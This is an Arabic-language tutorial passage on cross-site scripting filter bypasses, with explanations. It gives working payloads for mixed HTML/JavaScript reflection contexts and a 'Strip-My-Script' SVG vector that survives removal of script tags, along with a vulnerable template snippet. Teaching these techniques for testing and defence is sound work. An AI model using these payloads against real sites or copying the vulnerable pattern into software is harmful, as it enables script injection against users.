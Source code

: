 **أمثلة تعمل:**
- `">'alert(1)-'<svg>`: لعلامات اقتباس مفردة مُنظفة (مثل `'` تصبح `&#39;`).
- `">'alert(1)-'<svg>`: لعلامات اقتباس مفردة مُهربة بالكامل (مثل `\'`).
- `">alert(1)-"<svg>`: لعلامات اقتباس مزدوجة مُنظفة (مثل `"` تصبح `&quot;`).
- `"">alert(1)-"<svg>`: لعلامات اقتباس مزدوجة مُهربة بالكامل (مثل `\"`).

**لماذا يعمل؟**
- `<svg>` يُجبر المتصفح على تحليل الكود التالي بشكل يسمح بتنفيذ JavaScript حتى مع الترميز.
- الانعكاس في سياقين (HTML ثم JavaScript) يُنشئ سياقًا معقدًا يُصعب تصفيته.
- يتجاوز مرشحات تعقيم علامات الاقتباس.

### ✅ الكود المصاب:

```html
<script>
  var name = '{{USER_INPUT}}';
</script>
```

### 🔍 الاكتشاف:

- ابحث عن القيم التي تُعكس داخل **سياق JavaScript** مباشرة (مثل داخل متغير).
    
- وفي نفس الوقت تكون داخل صفحة HTML، أي أن الإدخال ينعكس مرتين: في JavaScript و HTML.
    
- جرّب payload مثل:
    
    ```html
    ">'-alert(1)-'<svg>
    ```
    

**الخلاصة:**
تجاوز السياق المختلط باستخدام `">'alert(1)-'<svg>` فعال لأنه يستغل انعكاس HTML وJavaScript مع `<svg>` لتجاوز تعقيم الاقتباسات.

---

## **2. ناقل Strip-My-Script (Strip-My-Script Vector)**
{ #XSS_Idea_for_script_tag }
**الشرح البسيط:**
يُستخدم لتضليل المرشحات التي تُزيل `<script>` الكلاسيكي. يُدرج `<script>` داخل `<svg>` بحيث يظل الكود صالحًا حتى لو أُزيل `<script>`.

**مثال يعمل:**
- `<svg/on<script><script>load=alert(1)//</script>`: يُنفذ `alert(1)` عبر `<svg>` حتى لو أُزيل `<script>`.

**لماذا يعمل؟**
- إذا أُزيل `<script>`، يظل `<svg onload=alert(1)>` صالحًا.
- `<svg>` مدعوم في المتصفحات الحديثة.
- يتجاوز مرشحات تبحث عن `<script>` فقط.

**الخلاصة:**
ناقل Strip-My-Script باستخدام `<svg/on<script><script>load=alert(1)//` فعال لأنه يتجاوز إزالة `<script>` باستخدام `<svg>`.

---